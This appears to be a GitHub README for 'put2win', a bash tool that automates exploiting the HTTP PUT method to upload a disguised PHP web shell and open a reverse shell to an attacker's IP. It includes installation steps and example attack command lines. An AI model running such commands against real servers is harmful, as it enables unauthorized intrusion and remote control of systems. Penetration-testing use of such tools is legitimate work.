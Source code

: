 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automate PUT HTTP method exploitation to get shell.

[![asciicast](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb.svg)](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb)


### Installation
```bash
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

### Usage
```bash
Script to automate PUT HTTP method exploitation to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - bash put2win.sh -t 192.168.1.80 -l 192.168.1.10 -s readme.php
 - bash put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
### Contact
Telegram: @devploit

Twitter: [@devploit](https://www.twitter.com/devploit)
